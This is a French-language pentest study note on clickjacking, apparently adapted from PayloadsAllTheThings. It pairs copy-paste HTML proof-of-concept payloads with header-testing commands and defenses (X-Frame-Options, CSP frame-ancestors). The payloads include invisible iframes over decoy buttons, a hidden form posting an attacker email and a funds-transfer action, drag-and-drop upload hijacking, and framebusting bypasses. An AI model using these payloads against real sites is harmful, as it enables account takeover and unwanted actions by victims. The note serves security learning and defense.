

# 🖱️ Clickjacking — UI Redressing

> [!info] **En 1 phrase**
> Clickjacking (UI Redressing) = piéger l'utilisateur en superposant une **iframe invisible** d'un site
> légitime sous une page attaquante trompeuse → le clic visuel "innocent" déclenche une **action réelle**
> sur le site victime (like, changement d'email, ajout d'admin...) **sans consentement**.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Clickjacking/README.md)**

---

## 🎯 Définition & mécanisme



> [!warning] ⚠️ **Clickjacking ≠ CSRF**
> - **CSRF** : l'attaquant forge une requête HTTP (auto-submit, images) → contournable avec des **tokens CSRF**.
> - **Clickjacking** : la victime **clique elle-même** dans une vraie page chargée dans l'iframe →
>   le navigateur envoie les **vrais cookies + tokens CSRF valides**. Les tokens CSRF ne protègent **pas** du clickjacking.

### Le mécanisme en 3 couches

1. **iframe transparente** : la cible (`https://cible.com/bouton`) est chargée dans une iframe rendue
   invisible (`opacity: 0;`, `border: 0;`, parfois `width:0; height:0;`).
2. **Empilement CSS** : l'iframe est au-dessus (`z-index: 2`) et un **décor visible** ("gagnez un cadeau")
   est en dessous (`z-index: 1`) → la victime voit le décor mais clique sur la cible.
3. **Alignement pixel-perfect** : `position: absolute; top: Xpx; left: Ypx;` place le bouton réel
   exactement sous le curseur / sous le bouton trompeur.

---

## 🧱 Payloads de base — iframe invisible

### Les propriétés CSS clés

```css
iframe {
  opacity: 0;                 /* invisible (parfois opacity:0.0001 pour certains navigateurs) */
  position: absolute;         /* positionnement absolu par rapport au viewport */
  top: 0;                     /* collé en haut */
  left: 0;                    /* collé à gauche */
  width: 800px;               /* dimensions de la zone cliquable */
  height: 600px;
  z-index: 2;                 /* AU-DESSUS du décor */
  border: 0;                  /* pas de bordure visible */
}
.faux {
  position: absolute;
  top: 220px; left: 120px;    /* position du bouton réel de la cible */
  z-index: 1;                 /* EN-DESSOUS de l'iframe */
}
```

### PoC complet à copier-coller

```html
<!DOCTYPE html>
<html>
<head>
<title>PoC Clickjacking</title>
<style>
  .faux {
    position: absolute;
    top: 220px; left: 120px;      /* à aligner sur le bouton réel (devtools) */
    z-index: 1;
    background: #d33; color: #fff;
    padding: 12px 24px;
    font-family: Arial, sans-serif;
  }
  iframe {
    position: absolute;
    top: 0; left: 0;
    width: 800px; height: 600px;
    opacity: 0; border: 0;
    z-index: 2;
  }
</style>
</head>
<body>
  <div class="faux">🎁 Cliquez ici pour gagner un cadeau</div>
  <iframe src="https://CIBLE.com/bouton-sensible"></iframe>
</body>
</html>
```

### Variante : div transparente qui capte tout le viewport

```html
<div style="opacity: 0; position: absolute; top: 0; left: 0; height: 100%; width: 100%; z-index: 999;">
  <a href="https://CIBLE.com/action">Cliquez ici</a>
</div>
```

### Variante : iframe invisible (dimensions nulles)

```html
<iframe src="https://CIBLE.com/action" style="opacity: 0; height: 0; width: 0; border: none;"></iframe>
```

> [!tip] 💡 **Alignement** : charger d'abord l'iframe **visible** (`opacity: 0.2`), repérer la position exacte
> du bouton cible dans les devtools, reporter ces coordonnées dans le `.faux`, puis repasser à `opacity: 0`.

---

## 🎭 Variantes d'attaque

### Clickjacking par drag & drop (file drop)

La victime est invitée à **glisser-déposer** un fichier (jeu, puzzle...) : le drop atterrit sur une
zone d'upload réelle de la cible → le fichier local est téléversé à l'insu de l'utilisateur.

```html
<style>
  iframe { position: absolute; top: 0; left: 0; width: 500px; height: 400px;
           opacity: 0; z-index: 2; }
  .zone  { position: absolute; top: 0; left: 0; width: 500px; height: 400px;
           z-index: 1; border: 3px dashed #999; }
</style>
<iframe src="https://CIBLE.com/upload"></iframe>
<div class="zone">🖱️ Déposez votre fichier ici (jeu de glisser-déposer)</div>
```

### Pointer events (`pointer-events: none` vs `auto`)

```css
.decor  { pointer-events: none; }   /* le décor NE capture PAS les clics → ils traversent vers l'iframe */
iframe  { pointer-events: auto; }    /* l'iframe récupère tous les clics */
```

`pointer-events: none` est aussi utilisé par certains **anti-clickjackers JS** (qui le désactivent au
`mousemove`) : l'attaquant peut alors rejouer en forçant `pointer-events: auto` sur l'iframe.

### Form hijacking (détournement de formulaire)

La victime clique un bouton visible → un **formulaire caché** est soumis vers la cible.

```html
<button onclick="submitForm()">Cliquez-moi</button>

<form action="https://CIBLE.com/action" method="POST" id="hidden-form" style="display: none;">
  <input type="hidden" name="email" value="attaquant@example.com">
  <input type="hidden" name="action" value="transfer-funds">
</form>

<script>
  function submitForm() {
    document.getElementById('hidden-form').submit();
  }
</script>
```

### Cursorjacking

Un **faux curseur** décalé est superposé : la victime croit cliquer à un endroit (visible)
mais le pointeur réel est ailleurs → le clic touche la cible.

```html

<script>
  document.onmousemove = function (e) {
    // déplace le faux curseur avec un décalage constant (ex: +100px) vers la cible
  };
</script>
```

### Framebusting bypass (résumé)

Voir section dédiée : `sandbox`, double iframe, `onBeforeUnload`, 204 No Content, filtres XSS historiques.

---

## 🎯 Cas d'utilisation

| Cible | Résultat |
|---|---|
| Panneau admin → "Ajouter un admin" | Élévation de droits : compte attaquant devient admin |
| Bouton "Like" / "Suivre" / ajout panier | Actions de masse à l'insu |
| Formulaire "Changer d'email" | Réinitialisation de mot de passe vers le compte attaquant |
| "Mettre à jour le profil / téléphone" | Prise de contrôle du compte |
| Upload / drag & drop | Téléversement de fichiers locaux |
| Double-clic (`dblclick`) | Confirmation en 2 clics : les 2 clics tombent sur la cible |

### Bouton admin / changement de droits

```html
<style>
  iframe { position: absolute; top: 0; left: 0; width: 600px; height: 400px;
           opacity: 0; z-index: 2; }
</style>
<iframe src="https://CIBLE.com/admin/users"></iframe>
<div class="faux">🎁 Cliquez ici</div>
```

### Double-click jacking (`dblclick`)

```html
<style>
  iframe { position: absolute; top: 0; left: 0; width: 200px; height: 200px;
           opacity: 0; z-index: 2; }
</style>
<iframe src="https://CIBLE.com/bouton-a-double-clic"></iframe>
<!-- Les deux clics du décor tombent sur le bouton réel qui attend un dblclick -->
```

> [!tip] 💡 **Cas où le simple clic ne suffit pas** : certains flux exigent un double-clic de confirmation.
> L'iframe reçoit les événements `dblclick` → aligner la zone et tester les deux clics.

### Top / opaque trick

Si le framebusting de la cible teste `top.location`, on l'encapsule dans une iframe **sandboxée**
(origine opaque) : la tentative de navigation de `top` échoue silencieusement (voir Bypass).

---

## 🧨 Bypass des protections

> [!warning] ⚠️ **X-Frame-Options est INSUFFISANT**
> - Header souvent **oublié sur certains endpoints** (le site protège `/` mais pas `/admin`, `/api/...`).
> - Ne couvre pas les **navigations top-level** (page entière) : certains vecteurs utilisent `window.open`,
>   les liens, ou `location` plutôt que le framing iframe.
> - Valeur unique, pas de négociation par domaine → inadapté aux CDN / multi-domaines.
> - Ignoré si une **CSP `frame-ancestors`** est présente (c'est la CSP qui gagne).
> - Ne protège rien contre le clickjacking **en drag & drop** (pas de click).

### Framebusting JS et ses bypass

La cible tente de se protéger côté client :

```js
if (top != self) {
  top.location = self.location;      // casse l'iframe
}
```

Bypass :

```html
<!-- 1. sandbox SANS allow-top-navigation : le framebusting est neutralisé -->
<iframe src="https://CIBLE.com/" sandbox="allow-forms allow-scripts"></iframe>

<!-- 2. security="restricted" (IE historique) : désactive le JS de la frame -->
<iframe src="http://CIBLE.com/" security="restricted"></iframe>

<!-- 3. onBeforeUnload : le prompt annule la navigation framebusting -->
<h1>www.fictitious.site</h1>
<script>
  window.onbeforeunload = function () {
    return "Voulez-vous vraiment quitter fictitious.site ?";
  };
</script>
<iframe src="https://CIBLE.com/"></iframe>
```

Bypass **sans interaction** avec une page 204 :

```php
<?php header("HTTP/1.1 204 No Content"); ?>
```

```html
<script>
  var prevent_bust = 0;
  window.onbeforeunload = function () { prevent_bust++; };
  setInterval(function () {
    if (prevent_bust > 0) {
      prevent_bust -= 2;
      window.top.location = "https://attacker.site/204.php";   // boucle de navigation annulée
    }
  }, 1);
</script>
<iframe src="https://CIBLE.com/"></iframe>
```

Bypass **historique** via filtres XSS (IE8 / Chrome 4 XSSAuditor) : injecter le début du script
framebusting dans un **paramètre** de la cible pour déclencher un faux positif et désactiver le script :

```html
<iframe src="https://CIBLE.com/?param=<script>if"></iframe>
```

---

## 🕵️ Test : la cible est-elle clickjackable ?

```bash
# Headers de la home
curl -sI "https://CIBLE.com/" | grep -iE "x-frame-options|content-security-policy"

# Tous les endpoints sensibles (PAS seulement la home !)
for p in / /admin /profile /account/change-email /settings /logout /upload /api/v1/update; do
  echo "== $p =="
  curl -sI "https://CIBLE.com$p" | grep -iE "x-frame-options|content-security-policy" || echo "   → AUCUN header"
done
```

```http
HTTP/1.1 200 OK
Content-Security-Policy: frame-ancestors 'none';
X-Frame-Options: DENY
```

Interprétation :

| Header présent | Verdict |
|---|---|
| `X-Frame-Options: DENY` | Protégé (framing interdit) |
| `X-Frame-Options: SAMEORIGIN` | Protégé si l'attaquant est cross-origin |
| `Content-Security-Policy: frame-ancestors 'self'` / `'none'` | Protégé (**CSP prioritaire sur XFO**) |
| Aucun des deux | **Candidate** → confirmer avec un PoC réel |
| CSP **en meta tag** | ⚠️ `frame-ancestors` n'est pas supporté en meta → pas de protection |
| Site accessible en HTTP (`http://`) | Candidat même si HTTPS protégé (mixed framing) |

> [!warning] ⚠️ **L'absence de header ne prouve pas la vulnérabilité** : il faut toujours confirmer par un
> PoC réel (iframe + click), et **tester chaque endpoint**, pas juste la page d'accueil.

---

## 🛠️ Outils

| Outil | Usage |
|---|---|
| **Burp Suite + Clickbandit** | Enregistre tes clics sur la cible et génère un PoC clickjacking complet |
| **OWASP ZAP** | Module de test clickjacking intégré (alerte par défaut) |
| **machine1337/clickjack** | Script automatisé de test (GitHub) |
| **Devtools navigateur** | Alignement pixel-perfect (opacity:0.2 puis position du bouton réel) |
| **curl / burp repeater** | Vérification des headers `X-Frame-Options` / CSP |

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| `X-Frame-Options: DENY` | Interdit tout framing (Apache : `Header always append X-Frame-Options DENY`) |
| `X-Frame-Options: SAMEORIGIN` | Autorise le framing même-origine uniquement |
| **CSP `frame-ancestors 'none'`** | Défense **moderne prioritaire** sur XFO |
| CSP `frame-ancestors 'self'` | Autorise les ancêtres même-origine |
| JS framebusting | **Défense limitée** (contournable : sandbox, onBeforeUnload, 204, JS désactivé) |
| Headers **sur toutes les réponses** | Y compris API, erreurs, pages d'auth — jamais seulement la home |
| Cookies `SameSite` | Ne protège **pas** du clickjacking (utile contre CSRF uniquement) |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Méthodo rapide**
> 1. `curl -sI` sur **tous** les endpoints sensibles → identifier l'absence de XFO/CSP.
> 2. Générer un PoC (Clickbandit ou manuel) → aligner sur le bouton réel.
> 3. Valider l'impact : changement d'email/phone = prise de compte, admin = élévation de droits.
> 4. Ne jamais t'arrêter à la home : `/admin`, `/api`, les endpoints d'upload et de profil sont les cibles.

> [!warning] ⚠️ **Pièges de la détection par headers**
> - **XFO présent** mais `SAMEORIGIN` avec une sous-domaine contrôlable / framing cross-origin autorisé ailleurs.
> - **XFO absent mais CSP présent** : la CSP `frame-ancestors` protège quand même → pas vulnérable.
> - **CSP en meta tag** : `frame-ancestors` ignoré → protection inexistante malgré la CSP.
> - Un PoC qui "ne marche pas" peut être un **mauvais alignement**, pas une protection réelle.
> - **Clickjacking ≠ CSRF** : des tokens CSRF présents ne bloquent pas le clickjacking (le clic est réel).

> [!warning] ⚠️ **Limites de l'attaque**
> - La victime doit être **connectée** au site cible (session active).
> - Impact seul parfois faible → à **chaîner** (XSS, CSRF, tabnabbing...) pour obtenir un réel impact.

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[CSRF|🔄 CSRF]]
- [[LFI et RFI|📂 LFI / RFI]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Clickjacking](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Clickjacking/README.md)
